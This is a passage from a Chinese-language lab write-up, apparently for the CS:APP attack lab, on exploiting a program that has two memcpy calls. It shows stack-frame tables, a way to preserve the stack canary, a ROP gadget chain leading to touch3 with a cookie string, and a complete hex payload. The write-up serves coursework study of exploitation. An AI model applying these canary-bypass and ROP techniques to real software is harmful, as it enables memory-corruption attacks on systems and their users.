  402245:	e8 65 07 00 00       	call   4029af <__stack_chk_fail>
  40224a:	c9                   	leave  
  40224b:	c3                   	ret    
```

考虑里面的两个`memcpy`函数调用，分别执行
- `memcpy(-0x190(%rbp), -0x88(%rbp), (int)(-0x90(%rbp)))`
- `memcpy(-0x88(%rbp), -0x190(%rbp), (int)(-0x8c(%rbp)))`

因此，我们首先需要考虑的便是`-0x88(%rbp), -0x90(%rbp), -0x8c(%rbp)`处的值，同时也需要想办法知道`%fs:0x28`（初始时位于`-0x8(%rbp)`）的值

要想知道`%fs:0x28`的值，可以通过第一次`memcpy`实现，取`(int)(-0x90(%rbp)) = 0x88`即可，据此划分第一次`memcpy`之后的栈帧

<center>


|         位置              |      值  |
|         :-:               |   :-:    |
|`-0x190(%rbp)~-0x111(%rbp)`|   与`-0x088(%rbp)~-0x009(%rbp)`相同   |
|`-0x110(%rbp)~-0x109(%rbp)`|   `%fs:0x28`   |
|`-0x108(%rbp)~-0x091(%rbp)`|   待定   |
|`-0x090(%rbp)~-0x089(%rbp)`|   `88 00 00 00 ?? ?? ?? ??`   |
|`-0x088(%rbp)~-0x009(%rbp)`|   待定   |
|`-0x008(%rbp)~-0x001(%rbp)`|   `%fs:0x28`   |

</center>

由于`-0x190(%rbp)~-0x109(%rbp)`在`memcpy`过程中直接被覆盖，其初始值不起任何作用

下一步考虑末尾的`leave`语句，其效果等价于
```
movq    %rbp, %rsp
popq    %rbp
```
因此，最后`ret`所返回的位置为`0x8(%rbp)`，也即第二次`memcpy`需要将我们希望执行的语句开头移动到`0x8(%rbp)`处，因此，`-0x100(%rbp)`应该是所需执行的语句头部，故从`-0x100(%rbp)`开始应有以下内容
```
// *(movq %rsp, %rax)
// *(movq %rax, %rdi)
*(popq %rax)   
Imm         
*(movl %eax, %ecx)
*(movl %ecx, %edx)
*(movl %edx, %esi)
*add_xy        
*(movq %rax, %rdi)
touch3        
cookie        
```
我们不需要前两行，是因为`402218~402229`已经完成了将`%rsp`（加上偏置量）转移到`%rdi`的任务，此外，要将完整的语句块复制到`0x8(%rbp)`处，可得`(int)(-0x8c(%rbp)) >= 0xd0`，此处取为`0xd0`，据此重新写出第一次`memcpy`后的栈帧分析

<center>


|         位置              |      值  |
|         :-:               |   :-:    |
|`-0x190(%rbp)~-0x111(%rbp)`|   与`-0x088(%rbp)~-0x009(%rbp)`相同   |
|`-0x110(%rbp)~-0x109(%rbp)`|   `%fs:0x28`   |
|`-0x108(%rbp)~-0x101(%rbp)`|   待定   |
|`-0x100(%rbp)~-0x0c1(%rbp)`|   需执行的语句块  |
|`-0x0c0(%rbp)~-0x091(%rbp)`|   待定   |
|`-0x090(%rbp)~-0x089(%rbp)`|   `88 00 00 00 d0 00 00 00`   |
|`-0x088(%rbp)~-0x009(%rbp)`|   待定   |
|`-0x008(%rbp)~-0x001(%rbp)`|   `%fs:0x28`   |

</center>

第二次`memcpy`之后，`-0x190(%rbp)~-0x1(%rbp)`之间的所有值实际上并未改变，故栈帧情况与上表一致

最后，我们还需要在某个位置存储`cookie`，且至少需要9个字节的空位（末尾需要补充`00`），故在`-0x0c0(%rbp)~-0x091(%rbp)`和`-0x088(%rbp)~-0x009(%rbp)`之中任选位置存储，并计算`Imm`即可。

最终得到的一种答案为
```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
9d 22 40 00 00 00 00 00      
48 00 00 00 00 00 00 00     
64 23 40 00 00 00 00 00      
79 23 40 00 00 00 00 00      
04 23 40 00 00 00 00 00      
b6 22 40 00 00 00 00 00    
72 22 40 00 00 00 00 00      
8f 20 40 00 00 00 00 00      
00 00 00 00 00 00 00 00    
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
88 00 00 00 d0 00 00 00      
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00  
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00    
00 00 00 00 00 00 00 00   
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00  
00 00 00 00 00 00 00 00 
33 30 63 64 31 65 65 34     
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00  
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
```

</details>
